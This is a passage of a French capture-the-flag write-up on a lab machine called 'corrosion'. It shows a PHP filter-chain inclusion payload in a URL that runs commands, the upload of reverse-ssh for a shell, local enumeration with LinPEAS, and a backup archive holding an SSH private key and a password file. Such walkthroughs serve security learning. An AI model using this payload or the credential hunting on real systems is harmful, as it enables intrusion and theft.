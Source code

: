 Et l'intégrer dans l'URL qui ressemblera à ceci :  

```plain
http://192.168.56.38/blog-post/archives/randylogs.php?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|--- snip ---|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&c=id
```

Je vous fait grâce de l'URL complète longue de 5860 octets. Heureusement suffisamment courte pour être acceptée par le serveur web.  

Après upload et exécution de [reverse-ssh](https://github.com/Fahrj/reverse-ssh) il est temps de fouiller un peu sur le système.  

On my way
---------

Je m'intéresse aussitôt à l'utilisateur *randy*, seul rempart visible avant *root*. Cet utilisateur n'a toutefois aucun dossier ni fichier world-readable...  

Dans les logs je retrouve effectivement le auth.log qui était lisible mais dont je n'ai pas eu besoin   

```plain
www-data@corrosion:/home$ find /var/log/ -type f -readable 2>/dev/null 
/var/log/alternatives.log
/var/log/wtmp
/var/log/bootstrap.log
/var/log/auth.log.1
/var/log/faillog
/var/log/fontconfig.log
/var/log/auth.log
/var/log/dpkg.log
/var/log/installer/telemetry
/var/log/installer/media-info
/var/log/installer/initial-status.gz
/var/log/gpu-manager.log
/var/log/lastlog
/var/log/apt/eipp.log.xz
/var/log/apt/history.log.1.gz
/var/log/apt/history.log
/var/log/dpkg.log.1
/var/log/alternatives.log.1
```

Les processus, les ports en écoute ou encore les binaires setuid n'ont rien qui sort de l'ordinaire... Je décide de sortir un [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) histoire d'automatiser l'énumération.  

Ce dernier indique que le système est potentiellement vulnérable à la faille Sudo Baron Samedit (devenue un running gag des CTFs) mais surtout retrouve une archive intéressante dans */var/backups/* :  

```plain
www-data@corrosion:/tmp$ unzip -l /var/backups/user_backup.zip
Archive:  /var/backups/user_backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     2590  2021-07-30 00:20   id_rsa
      563  2021-07-30 00:20   id_rsa.pub
       23  2021-07-30 00:21   my_password.txt
      148  2021-07-30 00:11   easysysinfo.c
---------                     -------
     3324                     4 files
```
